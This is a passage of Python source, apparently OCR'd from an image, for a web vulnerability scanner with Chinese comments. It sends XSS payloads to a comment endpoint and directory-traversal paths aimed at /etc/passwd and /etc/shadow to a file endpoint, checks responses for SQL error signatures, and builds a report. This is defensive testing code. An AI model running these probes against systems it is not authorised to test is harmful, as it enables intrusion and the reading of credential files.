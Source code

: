 ```python
            "javascript:alert('XSS')",
            "<svg onload=alert('XSS')>"
        ]
        
        for payload in payloads:
            response = requests.post(
                urljoin(self.target_url, '/api/comment'),
                data={'content': payload}
            )
            
            if payload in response.text and 'text/html' in response.headers.get('content-type', ''):
                self.vulnerabilities.append({
                    'type': 'XSS',
                    'severity': 'Medium',
                    'payload': payload,
                    'reflected': True
                })
    
    def scan_directory_traversal(self):
        """目录遍历扫描"""
        payloads = [
            '../../../etc/passwd',
            '..\\..\\..\\windows\\system32\\drivers\\etc\\hosts',
            '/etc/passwd',
            '/proc/version',
            '/etc/shadow'
        ]
        
        for payload in payloads:
            response = requests.get(
                urljoin(self.target_url, '/api/file'),
                params={'path': payload}
            )
            
            if 'root:' in response.text or 'daemon:' in response.text:
                self.vulnerabilities.append({
                    'type': 'Directory Traversal',
                    'severity': 'High',
                    'payload': payload,
                    'file_accessed': True
                })
    
    def detect_sql_error(self, response_text):
        """检测 SQL 错误"""
        error_patterns = [
            'mysql_fetch_array',
            'ORA-01756',
            'Microsoft OLE DB Provider',
            'PostgreSQL query failed',
            'SQLite error',
            'syntax error'
        ]
        
        return any(pattern.lower() in response_text.lower() for pattern in error_patterns)
    
    def generate_report(self):
        """生成扫描报告"""
        report = {
            'target': self.target_url,
            'scan_date': datetime.now().isoformat(),
            'total_vulnerabilities': len(self.vulnerabilities),
            'vulnerabilities': self.vulnerabilities,
```